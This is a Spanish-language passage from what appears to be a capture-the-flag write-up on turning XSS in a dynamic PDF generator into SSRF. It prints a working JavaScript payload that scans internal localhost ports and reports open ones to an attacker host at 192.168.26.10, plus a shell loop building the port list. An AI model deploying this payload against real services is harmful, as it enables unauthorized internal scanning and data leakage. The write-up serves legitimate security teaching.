 Al generar un **PDF**, observaremos que dicha funcionalidad permite hacer solicitudes al **localhost**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315190248.png>)
### XSS → SSRF vía Dynamic PDF

Gracias al siguiente artículo [XSS to SSRF via Dynamic PDF](https://book.hacktricks.wiki/es/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html), podemos ver como acontecer un **SSRF** a través de la generación dinámica de **PDFs**.

Gracias al siguiente comando de bash, obtendremos un listado de los puertos más comunes.

```bash
for i in $(cat /usr/share/wordlists/SecLists/Discovery/Infrastructure/common-http-ports.txt); do echo -n "$i,"; done; echo
```

El siguiente contenido de `pwned.js` nos permitirá realizar un escaneo de los puertos abiertos internamente.

```js
function checkPorts(port){
  x=new XMLHttpRequest;
  x.onload=function(){new Image().src=`http://192.168.26.10/open?port=${port}`};
  x.open("GET",`http://localhost:${port}/`);x.send();
}

top_ports = [66,80,81,443,445,457,1080,1100,1241,1352,1433,1434,1521,1944,2301,3000,3128,3306,4000,4001,4002,4100,5000,5432,5800,5801,5802,6346,6347,7001,7002,8000,8080,8443,8888,30821]

for (let port of top_ports){
  checkPorts(port)
}
```

Volveremos a generar un **PDF** y obtendremos la confirmación de que el puerto **3000** está abierto.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315190517.png>)

Para ver el contenido de dicho puerto, es decir la respuesta, el contenido de `pwned.js` deberá de ser el sigueinte.
